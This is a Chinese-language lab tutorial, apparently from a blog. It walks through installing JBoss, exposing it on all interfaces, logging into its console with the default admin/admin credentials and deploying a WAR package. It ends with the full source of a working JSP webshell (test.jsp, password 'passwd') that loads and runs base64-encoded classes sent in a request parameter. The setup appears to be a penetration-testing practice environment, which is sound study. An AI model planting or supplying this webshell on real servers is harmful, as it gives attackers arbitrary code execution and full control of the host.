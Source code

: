 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4NILv8q3g8bxnToRiaT0pOZzz0JLuI7Wymk9NicHT3sT2oiaiaYob8dlvzw/640?wx_fmt=png&from=appmsg "")  
**环境变量配置完毕。**  
  
接下来做一些设置,找到 server.xml 文件,修改 ip 地址和端口，修改之前先备份一下  通过记事本打开这个 server.xml 文件，找到 ip 地址配置。将这个${jboss.bind.address}改为 0.0.0.0 即可。如果想改端口的话，将 8080 改为 80 即可（不建议）。保存之后关闭，然后重新运行 jboss 。  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4ZTInIcErLJFCShdGXrd2v6iadlO92kZAvyGUulc0zvBVELzHzgf58Hw/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4V2lJS5wleCZSLLuq8n3HIRJiaU2SusxGY5W2zp8m8eq6Jh29RnEibncA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4CFANM9VA4l7VuwawzbVjBGXbhFnJib4eyVJb80JFmIFBg5DtSuiaX1Cg/640?wx_fmt=png&from=appmsg "")  
双击run.bat,解压的可能比较慢  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4Utbw9ccEC0VtPYe7oX9OtJzv176TtFW05zkiaokHiasZibmhNNFl7TtZQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4bYMf8yugER63LeRfiaicGc3teOAxRVnomVWLc850OSQgFZeGh0LUBWibA/640?wx_fmt=png&from=appmsg "")  
然后通过问一下 jboss 网址，http://192.168.2.148:8080 ,注意，一定要输入 http://才行，jboss 默认端口时 8080，（如IIS 中有网站端口冲突，记得修改）我们在浏览器输入如下网址，查看效果。（注意先不要启动jspstudy2016,否则会打不开这个 Jboss 控制台！！防止端口冲突）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4VibJXM2jUKqibKLiabgUpOGAA3eS70ABgt3mGOCgw0giaNTfsSBTiamyJvQ/640?wx_fmt=png&from=appmsg "")  
输入admin，admin登录  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4g61vGo5K4kajcOkGyzSNIJWfCszgve5dfVTRKOQvUmzLZAfVvXFtWA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4UgU6PZ5R9jbYJRiaurq70JufRwThlH2lyJlFVOYqNeMFGuLYEX2OIWQ/640?wx_fmt=png&from=appmsg "")  
# 通过jboss部署网址  
  
在控制台中找到web application（war）s --add a new resource--选择war文件上传--访问http://192.168.2.148:8080/test3693  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4KibpVr74X2E5daeVtsz4mD1YH04ZWcDV8cYDiavPOnFQ5I7Zw3acIicgA/640?wx_fmt=png&from=appmsg "")  
和 struct2 差不多，也是部署 war 包项目，放到当前文档所在目录中，大家可以直接选 test3693.war 使用  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4RMz1nSQU7EY55PibGJ5jxiciajZrDs9XgZvn05uhq6G74nFPJEQ8ZMkMA/640?wx_fmt=png&from=appmsg "")  
  
  
我们就可以直接访问了，重新打开 IE 浏览器中输入如下网址看效果: http://192.168.2.148:8080/test3693/  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4YLCLoczliacvy42umCFfetnyea8B7CpVDM5ejMJN7NUjG3Qxxy84tNg/640?wx_fmt=png&from=appmsg "")  
# 上传木马  
  
在这里可以直接上传木马 test.jsp.密码：passwd  
```
<%!    class U extends ClassLoader {        U(ClassLoader c) {            super(c);        }        public Class g(byte[] b) {            return super.defineClass(b, 0, b.length);        }    }    public byte[] base64Decode(String str) throws Exception {        try {            Class clazz = Class.forName("sun.misc.BASE64Decoder");            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);        } catch (Exception e) {            Class clazz = Class.forName("java.util.Base64");            Object decoder = clazz.getMethod("getDecoder").invoke(null);            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);        }    }%><%    String cls = request.getParameter("passwd");    if (cls != null) {        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);    }%>
```  
  